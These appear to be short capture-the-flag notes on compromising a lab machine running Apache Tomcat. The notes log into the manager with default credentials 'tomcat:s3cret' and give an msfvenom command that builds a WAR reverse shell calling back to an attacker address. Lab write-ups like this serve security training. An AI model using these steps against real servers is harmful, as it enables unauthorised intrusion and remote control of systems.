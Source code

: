 ```
Jerry - 10.10.10.95
```

#Ports Open - 8080

#Detail of Ports
>8080	apache tomcat

#Findings + Exploitation
>found /manager
>used default user pass and got in
	tomcat:s3cret
>made a payload using msfvenom for .war
	msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.2 lport=9001 -f war > shell.war
>started a listener
>activated the shell
>found both the flags in Administrator/Desktop